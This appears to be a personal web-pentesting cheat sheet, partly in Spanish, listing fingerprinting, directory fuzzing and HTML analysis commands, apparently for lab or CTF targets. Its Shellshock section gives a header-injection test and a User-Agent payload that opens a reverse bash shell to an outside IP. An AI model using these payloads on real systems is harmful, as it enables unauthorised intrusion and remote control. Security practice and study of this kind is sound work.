 ```yaml
---
title: initial methodology
category: web
order: 1
---
```


## 1. fingerprinting
## 2. fuzzing
## 3. html analyzis
## 4. check
* what webserver?
* what backend?
* what methods can use?
* any link or hints in html source?
* any admin panel?
* default credentials?
* hostname change anything?


# 1 Finerprinting
---
## nikto
```
nikto -C all -h http://IP
```
```
nikto -h $host  -p $puerto
```

## httprint
  ```
  httprint -h www1.example.com -s signatures.txt
  ```

## whatweb
```
whatweb http://nop.sh
```

## WAFW00F

  allows one to identify and fingerprint Web Application Firewall (WAF) products protecting a website.

  https://github.com/EnableSecurity/wafw00f

## banner grabbing with nc
  ```
  nc 192.168.0.10 80
  GET / HTTP/1.1
  Host: 192.168.0.10
  User-Agent: Mozilla/4.0
  Referrer: www.example.com
  <enter>
  <enter>
  ```

# 2. Fuzzing
---
## DirB
```
dirb http://IP:PORT /usr/share/dirb/wordlists/common.txt
```
## ffuf
```
ffuf -u http://10.10.10.171/FUZZ -w /usr/share/wordlists/dirb/common.txt -mc 200,204,301,302,307,401 -o results.txt
```
## GoBuster
```
 gobuster dir -f -r -k   --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt  -u http://10.10.10.56:80
 ```
 ```
gobuster dir -f -r -k   --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .php,.html -u http://10.10.10.56:80/cgi-bin/
```

## wfuzz
* fuzz - /usr/share/wfuzz/wordlist/

## Lists
* SecList - /usr/share/seclists/
* DirB - /usr/share/dirb/wordlists/
* fuzz - /usr/share/wfuzz/wordlist/


# 3. html analysis
---

## linkfinder
 busca links en .js files

## html2text
html -> texto leible


## cewl
```
cewl http://192.168.168.168/index.html -m 2 -w cewl.lst
```

# VARIOS
---


## shellshock

vuln en apache con mod_cgi, le apendeas gilada a bash
podes tener en otras cosas que no sean apache tipo webmin

### Apache
1. encontrar /cgi-bin/
2. encontrar el archivo ahi
3. curl -H "X-Frame-Options: () { :;};echo;echo gato" 10.10.10.56/cgi-bin/user.sh
**webmin reverse shellshock shell**
```
User-Agent: () {:;}; bash  -i >& /dev/tcp/10.10.15.1/1337 0>&1
```


## Heartbleed
TODO


## download web with httrack
```
httrack partidopirata.com.ar
```

## WEBDAV

**davtest**
  ```
  davtest –url http://(target IP) – will display what is executable
  ```
**cadaver**
  ```
  cadaver http://(target IP), then run “ls” to list directories found
  ```
